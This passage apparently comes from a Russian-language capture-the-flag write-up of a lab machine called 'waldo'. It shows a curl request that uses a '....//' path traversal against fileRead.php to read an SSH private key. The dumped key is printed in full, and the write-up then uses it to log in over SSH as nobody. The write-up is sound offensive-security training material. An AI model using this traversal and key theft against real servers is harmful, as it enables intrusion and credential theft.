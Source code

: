 ```text
root@kali:~# curl -s -X POST -d 'file=....//....//....//home/nobody/.ssh/.monitor' http://10.10.10.87/fileRead.php | jq -r .'file'
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAs7sytDE++NHaWB9e+NN3V5t1DP1TYHc+4o8D362l5Nwf6Cpl
mR4JH6n4Nccdm1ZU+qB77li8ZOvymBtIEY4Fm07X4Pqt4zeNBfqKWkOcyV1TLW6f
87s0FZBhYAizGrNNeLLhB1IZIjpDVJUbSXG6s2cxAle14cj+pnEiRTsyMiq1nJCS
dGCc/gNpW/AANIN4vW9KslLqiAEDJfchY55sCJ5162Y9+I1xzqF8e9b12wVXirvN
o8PLGnFJVw6SHhmPJsue9vjAIeH+n+5Xkbc8/6pceowqs9ujRkNzH9T1lJq4Fx1V
vi93Daq3bZ3dhIIWaWafmqzg+jSThSWOIwR73wIDAQABAoIBADHwl/wdmuPEW6kU
vmzhRU3gcjuzwBET0TNejbL/KxNWXr9B2I0dHWfg8Ijw1Lcu29nv8b+ehGp+bR/6
pKHMFp66350xylNSQishHIRMOSpydgQvst4kbCp5vbTTdgC7RZF+EqzYEQfDrKW5
8KUNptTmnWWLPYyJLsjMsrsN4bqyT3vrkTykJ9iGU2RrKGxrndCAC9exgruevj3q
1h+7o8kGEpmKnEOgUgEJrN69hxYHfbeJ0Wlll8Wort9yummox/05qoOBL4kQxUM7
VxI2Ywu46+QTzTMeOKJoyLCGLyxDkg5ONdfDPBW3w8O6UlVfkv467M3ZB5ye8GeS
dVa3yLECgYEA7jk51MvUGSIFF6GkXsNb/w2cZGe9TiXBWUqWEEig0bmQQVx2ZWWO
v0og0X/iROXAcp6Z9WGpIc6FhVgJd/4bNlTR+A/lWQwFt1b6l03xdsyaIyIWi9xr
xsb2sLNWP56A/5TWTpOkfDbGCQrqHvukWSHlYFOzgQa0ZtMnV71ykH0CgYEAwSSY
qFfdAWrvVZjp26Yf/jnZavLCAC5hmho7eX5isCVcX86MHqpEYAFCecZN2dFFoPqI
yzHzgb9N6Z01YUEKqrknO3tA6JYJ9ojaMF8GZWvUtPzN41ksnD4MwETBEd4bUaH1
/pAcw/+/oYsh4BwkKnVHkNw36c+WmNoaX1FWqIsCgYBYw/IMnLa3drm3CIAa32iU
LRotP4qGaAMXpncsMiPage6CrFVhiuoZ1SFNbv189q8zBm4PxQgklLOj8B33HDQ/
lnN2n1WyTIyEuGA/qMdkoPB+TuFf1A5EzzZ0uR5WLlWa5nbEaLdNoYtBK1P5n4Kp
w7uYnRex6DGobt2mD+10cQKBgGVQlyune20k9QsHvZTU3e9z1RL+6LlDmztFC3G9
1HLmBkDTjjj/xAJAZuiOF4Rs/INnKJ6+QygKfApRxxCPF9NacLQJAZGAMxW50AqT
rj1BhUCzZCUgQABtpC6vYj/HLLlzpiC05AIEhDdvToPK/0WuY64fds0VccAYmMDr
X/PlAoGAS6UhbCm5TWZhtL/hdprOfar3QkXwZ5xvaykB90XgIps5CwUGCCsvwQf2
DvVny8gKbM/OenwHnTlwRTEj5qdeAM40oj/mwCDc6kpV1lJXrW2R5mCH9zgbNFla
W0iKCBUAm5xZgU/YskMsCBMNmA8A5ndRWGFEFE+VGDVPaRie0ro=
-----END RSA PRIVATE KEY-----
```

# SSH — Порт 22 (внутри машины)
Врываемся:
```text
root@kali:~# curl -s -X POST -d 'file=....//....//....//home/nobody/.ssh/.monitor' http://10.10.10.87/fileRead.php | jq -r .'file' > nobody.key
root@kali:~# chmod 600 nobody.key
```

```text
root@kali:~# ssh -oStrictHostKeyChecking=no -i nobody.key nobody@10.10.10.87
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org>.
waldo:~$ whoami
nobody
waldo:~$ id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
waldo:~$ uname  -a
Linux waldo 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1 (2018-04-29) x86_64 Linux
```
